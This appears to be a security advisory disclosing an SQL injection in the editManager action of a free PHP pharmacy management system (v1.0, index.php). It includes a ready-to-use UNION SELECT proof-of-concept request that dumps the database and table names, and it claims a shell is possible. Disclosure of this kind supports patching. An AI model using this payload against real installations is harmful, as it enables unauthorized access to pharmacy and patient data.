 # pharmacy_Management_System-in-php  via to sql injection

****

## NAME OF AFFECTED PRODUCT(S)

**pharmacy-management-system-in-php-with-source-code**

## Vendor Homepage

https://code-projects.org/pharmacy-management-system-in-php-with-source-code/

##  **Manufacturers sites:**

 https://code-projects.org/

# AFFECTED  VERSION(S)

## Vulnerable File

index.php

## VERSION(S)

-  v1.0

## Software Link

 https://download-media.code-projects.org/2020/10/Pharmacy_Management_System_In_PHP_With_Source_Code.zip



# PROBLEM TYPE

## Vulnerability Type

- sql injection

## Root Cause

The vulnerability file is in the root directory of Index.php

You can see that the request is id，The managerId is concatenated to an SQL statement, triggering an SQL injection vulnerability.

![image-20240816202621012](https://github.com/user-attachments/assets/18908b60-23c5-4780-93a6-59fa4d30d7a8)

## Impact

 SQL injection can obtain database information and obtain server permissions.

## **Description of the vulnerability**

pharmacy_Management_System wite souce in php  editManager has SQL injection, which can get information about the database and even GetShell via SQL injection

## **Vulnerability recurrence**

We need to set up this PMS website locally

Let's open the  /Index.php?id=allManager  route

![image-20240723105418419](https://github.com/user-attachments/assets/381f498c-f9f3-4679-a607-0f3db402e536)

**POC**

```
GET /index.php?action=editManager&id=8}'+union+select+1,database(),(SELECT+GROUP_CONCAT(table_name)+FROM+information_schema.tables+WHERE+table_schema=database()),4,5,6,7,8+order+by+id+limit+0,1--+ HTTP/1.1
```

![image-20240723125248656](https://github.com/user-attachments/assets/f86c3631-56bb-4cac-a639-1b7a02c3074b)

**Result**

We can get the database name, table name, etc

![image-20240723125309098](https://github.com/user-attachments/assets/811bd17f-3fba-4ba5-ac1a-87291d554f71)

![image-20240723134203341](https://github.com/user-attachments/assets/63c11e73-885d-43cd-88bf-49969b271fc2)

# Discover

PingXinyao